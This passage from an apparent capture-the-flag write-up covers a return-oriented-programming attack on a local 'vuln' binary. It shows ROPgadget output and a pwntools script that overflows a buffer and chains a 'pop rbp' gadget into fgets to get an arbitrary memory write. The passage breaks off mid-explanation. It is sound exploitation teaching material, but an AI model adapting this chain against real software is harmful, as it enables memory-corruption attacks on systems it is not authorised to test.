 After it returns, it puts a pointer to the buffer it wrote to into `rax`.
This seems perfect for our purposes! If we can make `fgets` write the string `flag.txt\0` somewhere in memory, and then move `rax` (which contains a pointer to said location) to `rdi`, we accomplished goal 1!
Pay note to the following instruction in `main`:

```
LEA       RAX=>buf,[RBP + -0x8]
```

If we can control the value of `RBP`, this value will then be moved into `RAX`, and finally into `RDI`, giving us an arbitrary write using the `fgets` function! Let's search for `pop rbp; ret` gadgets:

```
(.venv) ➜  roppity ROPgadget --binary vuln | grep "pop rbp"
0x000000000040111b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401116 : mov byte ptr [rip + 0x2f1b], 1 ; pop rbp ; ret
0x000000000040119a : nop ; pop rbp ; ret
0x000000000040111d : pop rbp ; ret
```

Bingo! We have a gadget at `0x40111d` (the last one in the list). This gives us a pretty strong primitive. Let's try it:

```python
from pwn import *

p = process("./vuln")
elf = ELF("./vuln")

# pop rbp; ret
pop_rbp = 0x000000000040111d
# call fgets in main. also loads the value pointed to by [rbp - 8] to rax,
# which is where we write
call_fgets = 0x0000000000401142
# Random writable address in the binary
addr_to_write = 0x404028
# To fill up the buf
payload = b"A"*16
# Set rbp to 0x8 bytes after the address we want to write
payload += p64(pop_rbp)
payload += p64(addr_to_write + 0x8)
# Call fgets again; this time, since rbp points to the address we want to write
# +8, rdi will point to the address we want to write
payload += p64(call_fgets)

p.sendline(payload)
p.sendline(b"Hello!!\0")

p.interactive()
```

Before the second call to fgets:
